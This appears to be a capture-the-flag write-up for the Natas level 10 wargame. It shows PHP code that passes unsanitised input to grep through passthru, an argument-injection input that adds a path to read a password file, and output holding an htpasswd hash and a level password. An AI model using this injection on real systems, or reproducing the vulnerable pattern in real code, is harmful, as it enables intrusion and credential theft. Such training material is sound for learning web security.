 This is the same as natas9 except the characters `;`, `|` and `&` are filtered:
```php
<?   

$key = "";   

if(array_key_exists("needle", $_REQUEST)) {    
	$key = $_REQUEST["needle"];   
}      

if($key != "") {       
	if(preg_match('/[;|&]/',$key)) {           
		print "Input contains an illegal character!";       
	} else {        
		passthru("grep -i $key dictionary.txt");       
	}   
}

?>
```

So the concept is going to be the same as the last level, but we need to come up with a more creative way of injecting our commands

I tried inserting a wildcard character (`.*`) into this as `grep` does support wildcard characters and I got this output:
```
.htaccess:AuthType Basic
.htaccess: AuthName "Authentication required"
.htaccess: AuthUserFile /var/www/natas/natas10/.htpasswd
.htaccess: require valid-user
.htpasswd:natas10:$apr1$t6bjsq8a$xpGFjsUmCvTZohx70DGXg/
dictionary.txt:African
dictionary.txt:Africans
dictionary.txt:Allah
dictionary.txt:Allah's
dictionary.txt:American
dictionary.txt:Americanism
dictionary.txt:Americanism's
dictionary.txt:Americanisms
dictionary.txt:Americans
...
```

The wildcard character is working. `grep` is grepping all the files with `.` in its name.

So I tried inserting the password file path into the input field so that `grep` can read it: `.* /etc/natas_webpass/natas11`. And this is the output:
```
.htaccess:AuthType Basic
.htaccess: AuthName "Authentication required"
.htaccess: AuthUserFile /var/www/natas/natas10/.htpasswd
.htaccess: require valid-user
.htpasswd:natas10:$apr1$t6bjsq8a$xpGFjsUmCvTZohx70DGXg/
/etc/natas_webpass/natas11:1KFqoJXi6hRaPluAmk8ESDW4fSysRoIg
dictionary.txt:African
dictionary.txt:Africans
dictionary.txt:Allah
dictionary.txt:Allah's
dictionary.txt:American
dictionary.txt:Americanism
...
```